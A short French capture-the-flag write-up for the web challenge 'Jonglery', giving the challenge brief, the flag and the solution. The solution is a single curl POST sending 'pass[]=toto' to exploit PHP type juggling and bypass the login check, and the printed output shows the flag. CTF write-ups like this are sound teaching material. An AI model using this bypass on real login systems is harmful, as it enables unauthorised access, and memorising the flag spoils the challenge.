

# Write up :  Jonglery


Catégorie :

```
Web
```

Consigne  :

```
Trouver un moyen de se connecter à l'interface de ce site. 

<FONT COLOR="#ff0000">Accès au site :<br>   <a href="http://game2.marshack.fr:8087" target="new">http://game2.marshack.fr:8087</a></FONT> <p>
```

Pièce jointe :

```
Aucune
```

Serveur :

```
game2
```

Points attribués :

```
30
```

Flag :

```
MARS{TyP3JuGliNgC00LT00}
```




## Solution

Challenge un peu plus compliqué que les autres web, il s'agit d'une attaque de type juggling à faire sur le password.

Nous mettons donc un tableau à la place de la variable "pass" :

```
pwner@ubuntu:~$ curl -s -X POST http://game2.marshack.fr:8087/index.php -d "pass[]=toto" | grep flag
        Bien joué ! flag : MARS{TyP3JuGliNgC00LT00}
```


Résultat : MARS{TyP3JuGliNgC00LT00}